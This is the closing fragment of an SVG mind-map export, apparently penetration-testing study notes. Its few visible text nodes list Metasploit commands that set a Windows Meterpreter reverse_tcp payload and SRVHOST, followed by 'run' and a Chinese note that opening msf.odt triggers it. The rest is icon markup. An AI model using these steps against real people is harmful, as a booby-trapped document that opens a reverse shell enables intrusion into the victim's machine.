    <g id="386" ed:parentid="382" ed:height="25" transform="matrix(1,0,0,1,941,3199)" ed:width="300" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L300,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set payload windows/meterpreter/reverse_tcp</tspan>
        </text>
    </g>
    <g id="388" ed:parentid="382" ed:height="25" transform="matrix(1,0,0,1,941,3230)" ed:width="101" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L101,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">set SRVHOST</tspan>
        </text>
    </g>
    <g id="390" ed:parentid="382" ed:height="25" transform="matrix(1,0,0,1,941,3262)" ed:width="39" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L39,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">run</tspan>
        </text>
    </g>
    <g id="392" ed:parentid="382" ed:height="25" transform="matrix(1,0,0,1,941,3293)" ed:width="117" ed:layout="rightmap">
        <path fill="none" stroke-linejoin="round" d="M0,25L117,25" stroke="#558ed5" stroke-width="3"/>
        <text class="st6">
            <tspan y="16.2" style="white-space:pre" x="8">点击msf.odt触发</tspan>
        </text>
    </g>
    <symbol id="plus">
        <path fill="url(#lg2)" d="M11,6C11,8.8,8.8,11,6,11C3.2,11,1,8.8,1,6C1,3.2,3.2,1,6,1C8.8,1,11,3.2,11,6z"/>
        <path fill="none" d="M11,6C11,8.8,8.8,11,6,11C3.2,11,1,8.8,1,6C1,3.2,3.2,1,6,1C8.8,1,11,3.2,11,6zM3,6L9,6M6,3L6,9" stroke="#46a000" stroke-width="0.7"/>
    </symbol>
    <symbol id="minus">
        <path fill="url(#lg2)" d="M11,6C11,8.8,8.8,11,6,11C3.2,11,1,8.8,1,6C1,3.2,3.2,1,6,1C8.8,1,11,3.2,11,6z"/>
        <path fill="none" d="M11,6C11,8.8,8.8,11,6,11C3.2,11,1,8.8,1,6C1,3.2,3.2,1,6,1C8.8,1,11,3.2,11,6zM3,6L9,6" stroke="#46a000" stroke-width="0.7"/>
    </symbol>
    <g ed:togtopicid="101" transform="translate(241,1665)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="102" transform="translate(408,1665)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="104" transform="translate(519,266)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="106" transform="translate(915,171)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="108" transform="translate(986,45)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="114" transform="translate(986,203)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="120" transform="translate(1141,156)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="134" transform="translate(853,423)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="136" transform="translate(924,360)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="142" transform="translate(924,455)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="152" transform="translate(519,534)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="156" transform="translate(763,675)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="158" transform="translate(834,612)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="168" transform="translate(834,738)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="178" transform="translate(734,896)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="180" transform="translate(805,849)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="188" transform="translate(805,943)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="196" transform="translate(782,1116)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="198" transform="translate(853,1022)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="204" transform="translate(853,1148)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="218" transform="translate(514,1337)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="232" transform="translate(499,1526)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="246" transform="translate(505,1652)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="252" transform="translate(524,1715)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="258" transform="translate(497,1825)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="270" transform="translate(508,1983)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="284" transform="translate(544,2124)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="290" transform="translate(602,2244)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="292" transform="translate(673,2197)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="294" transform="translate(770,2181)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="300" transform="translate(673,2285)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="308" transform="translate(736,2493)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="310" transform="translate(807,2399)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="314" transform="translate(904,2399)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="320" transform="translate(807,2559)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="334" transform="translate(818,2796)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="336" transform="translate(889,2685)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="340" transform="translate(986,2701)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="344" transform="translate(889,2827)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="360" transform="translate(880,3016)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="372" transform="translate(844,3205)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="374" transform="translate(915,3126)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="376" transform="translate(986,3126)">
        <use xlink:href="#minus"/>
    </g>
    <g ed:togtopicid="382" transform="translate(915,3237)">
        <use xlink:href="#minus"/>
    </g>
</svg>
</div>
 </div>
    </div>

